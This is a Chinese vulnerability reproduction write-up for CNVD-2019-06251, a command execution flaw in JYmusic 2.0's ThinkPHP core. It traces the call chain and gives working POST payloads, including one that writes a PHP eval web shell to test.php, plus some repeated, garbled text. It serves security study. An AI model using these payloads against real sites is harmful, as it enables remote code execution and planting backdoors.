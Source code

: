 ```yaml
---
title: "JYmusic 2.0 命令执行漏洞"
id: zhfly3004
---
```


# （CNVD-2019-06251）JYmusic 2.0 命令执行漏洞

## 一、漏洞简介

CNVD-2019-06251

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

#### 危险函数

/core/library/think/Request.php类中的filterValue函数中，使用了call_user_func函数。

![image](../img/46c53a3b059095920ff2376e81d3ebc2.png)

通过构造使得$filter=system， $value=dir ，通过call_user_func函数即可执行系统命令” dir ”。

#### array_walk_recursive函数

/core/library/think/Request.php类中的input函数里调用了通过array_walk_recursive函数调用了filterValue函数。array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。

![image](../img/80fa870c7fdf09e4aa85a0f9da30b499.png)

![image](../img/df93b26a0960862df77e94c03364aaba.png)

#### input函数

/core/library/think/Request.php中的param函数调用了input函数。

![image](../img/28864e17cdc6b3a829b018db7de3d68b.png)

![image](../img/83c8eaca0710353986e3ea5490653dd3.png)

#### exec 函数

/core/library/think/App.php类中的exec 函数通过Request::instance()->param()调用了param函数。

![image](../img/d43b2882bb30410c85218f13c3b0bd8b.png)

#### run函数

/core/library/think/App.php类中的run函数则调用了exec函数

![image](../img/b9f95103bcff7e2c491c71a3026a5656.png)

传入的dispatch和dispatch和dispatch和config两个参数分别来自于/core/library/think/App.php类中run函数里的：

![image](../img/99f5613506926481795c4dac5db3a546.png)

![image](../img/8bc8c6c32bb34ae52dbec6dc9aa74277.png)

#### 变量覆盖

/core/library/think/App.php类中run函数里，获取dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过dispatch变量值时调用了routeCheck函数。routeCheck函数中则通过Route::chekc调用了check函数。/core/library/think/Route.php类中，check函数通过request->method()调用了method函数。

/core/library/think/Request.php类中，通过post参数_method=__construct调用构造函数：

![image](../img/6bca5c0a51ae6889c145693436b13dbd.png)

在构造函数里用filter=system覆盖类中的filter变量。

![image](../img/4697639bf526eea018b48bfb3c2d8981.png)

post参数 method=GET 就是要再次调用method函数，并且使得if(true===$method)为真，从而获取 _SERVER[REQUEST_METHOD]=dir 这个参数值。

![image](../img/42586c86f0a22ed79646e5a38cd0fd0b.png)

#### 调用入口

/core/library/think/App.php类中的run函数，则是在index.php入口函数中调用。

### 漏洞复现

#### 拦截首页请求，Change request method修改请求方式为POST

#### 参数：

![image](../img/dfefedd91f6efaa215f6253b26afaa66.png)

POST的参数的作用已在漏洞分析环节分析。
filter=system&_SERVER[REQUEST_METHOD]=dir&_method=__construct&method=GET
POST参数后不能有\r\n回车换行，如果有就不能成功执行。
POST /captcha HTTP/1.1 //请求一个验证码，引导程序的运行步骤。

#### 写入shell

![image](../img/e4ffb8f3269ebdfe3af2d4db0aa3cb02.png)

```
filter=system&_SERVER[REQUEST_METHOD]=echo “<?php @eval($_GET["test"]) ?>” >test.php&_method=__construct&method=GET 
```

#### phpinfo()

![image](../img/52a813bba4546043e350f9c1ba6e879c.png)

```
http://0-sec.org/test.php?test=phpinfo(); `//末尾一定要跟一个“分号” “ ; ” ，如果没有则不能成功执行。` 
```

## 四、参考链接

> https://blog.csdn.net/yun2diao/article/details/91345116